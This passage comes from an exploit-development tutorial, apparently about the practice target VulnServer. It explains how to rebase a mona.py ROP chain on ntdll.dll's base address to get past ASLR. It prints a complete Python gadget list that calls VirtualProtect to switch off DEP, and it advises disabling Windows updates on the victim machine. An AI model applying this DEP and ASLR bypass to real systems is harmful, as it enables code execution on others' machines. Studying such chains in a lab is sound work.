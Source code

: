 
### Rewriting the ROP chain
Since we will be searching for the base of the `ntdll.dll` library, we need to rewrite the ROP chain so the addresses of instructions are in the format of **base + offset** because the offset of functions and their instructions in the loaded DLL do not change in relation to each other and the base address of the DLL. Here, *base* is a variable, and offset is a constant because, as mentioned earlier, this will not change unless the DLL is recompiled. The offset for each instruction can be calculated using the following formula: *offset = instruction address - base*.

> [!IMPORTANT]
> Don't update the Windows 10/11 virtual machine between generation and use otherwise the ROP chain generated might be different. [How to Turn Off Automatic Updates on Windows 10](https://www.cleverfiles.com/howto/disable-update-windows-10.html)

Finally, we get a ROP chain like this once we have rewritten this to use the `base + offset` format:
```
base = 0x77100000   # base of ntdll.dll on your victim machine

def create_rop_chain():
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
        #[---INFO:gadgets_to_set_esi:---]
        base + 0xe7a5a,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x62508128,  # ptr to &VirtualProtect() [IAT essfunc.dll]
        base + 0x6c7f2,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
        base + 0x3e866,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebx:---]
        base + 0xe28aa,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x74a1a301,  # put delta into eax (-> put 0x00000201 into ebx)
        base + 0x42002,  # ADD EAX,8B5E5F00 # RETN [ntdll.dll] ** REBASED ** ASLR
        base + 0xd3ea9,  # XCHG EAX,EBX # OR EAX,E58BFFFA # POP EBP # RETN 0x08 [ntdll.dll] ** REBASED ** ASLR
        0x41414141,  # Filler (compensate)
        #[---INFO:gadgets_to_set_edx:---]
        base + 0x70173,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x41414141,  # Filler (RETN offset compensation)
        0x41414141,  # Filler (RETN offset compensation)
        0x74a1a140,  # put delta into eax (-> put 0x00000040 into edx)
        base + 0x42002,  # ADD EAX,8B5E5F00 # RETN [ntdll.dll] ** REBASED ** ASLR
        base + 0x1b6e2,  # XCHG EAX,EDX # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ecx:---]
        base + 0xd74b6,  # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR
        base + 0x125c9f,  # &Writable location [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edi:---]
        base + 0x7a182,  # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR
        base + 0x36205,  # RETN (ROP NOP) [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebp:---]
        base + 0x77cbf,  # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR
        base + 0x8b903,  # & call esp [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_eax:---]
        base + 0x1118d4,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x90909090,  # nop
        #[---INFO:pushad:---]
        base + 0x194f1,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ]
    return b''.join(struct.pack('<I', _) for _ in rop_gadgets)
```

